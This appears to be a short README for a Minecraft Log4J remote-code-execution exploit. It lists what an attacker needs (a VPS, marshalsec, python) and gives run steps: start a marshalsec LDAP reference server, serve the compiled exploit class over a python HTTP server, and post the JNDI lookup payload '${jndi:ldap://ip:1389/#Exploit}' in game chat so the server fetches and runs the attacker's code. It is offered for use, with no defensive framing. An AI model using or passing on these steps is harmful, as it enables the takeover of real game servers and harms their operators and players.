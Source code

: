 # Minecraft Log4J RCE

Requirements:

- a vps
- java (Duh)
- python
- marshalsec

How to run the exploit

- Compile the exploit with your values
- Run the following commands in the terminal `java -cp [MarshalSec] marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit`
- Open a new terminal instance and run `python -m http.server 8888`
- Then send this in the chat `${jndi:ldap://ip:1389/#Exploit}`
- Done :)
